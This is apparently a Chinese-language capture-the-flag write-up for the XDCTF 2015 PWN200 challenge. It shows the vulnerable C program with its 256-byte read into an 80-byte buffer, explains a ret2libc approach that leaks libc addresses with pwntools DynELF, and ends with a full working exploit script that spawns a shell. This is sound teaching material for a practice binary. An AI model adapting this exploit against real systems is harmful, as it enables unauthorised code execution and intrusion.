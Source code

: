 ## XDCTF 2015 PWN200
--------------------------------------------------
### 一. 源码(自己敲出来的)
```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int vuln(){
    char buf[80];
    setbuf(stdin, buf);
    return read(0, buf, 256);
}

int main(int argc, char** argv){
    char* welcome = "Welcome to XDCTF2015 ~!\n";
    setbuf(stdout, welcome);
    write(1, welcome, strlen(welcome));
    vuln();
    return 0;
}

```
检查一下保护:
![](./02.png) 
结论: **只有NX保护**， so我们不能往`shellcode`方向思考了，要向`system("/bin/sh")`。
###二. 分析
**思路**: 泄露`system`函数地址，发送`/bin/sh`, 执行。
**问题一**: 如何泄露`system`地址?
>答: 使用`pwntools`模块`DynELF`
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
  #各种预处理
  payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
  p.send(payload)
  #各种处理
  data = p.recv(4)
  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf = elf)      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
**问题二**: 如何发送`/bin/sh?`
> 构造类似的`payload`
```
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
```
**问题三**: `pppt是干什么的?如何获得`
> `pppt`是为了弹出`read`的三个参数，执行后面的`system`函数.
![](./03.png) 
### EXP
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
    p.recvuntil('Welcome to XDCTF2015~!\n')
    payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf = elf)
systemAddress = d.lookup('system', 'libc')
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
p.send(payload)
payload = "/bin/sh\00"
p.send(payload)
p.interactive()

```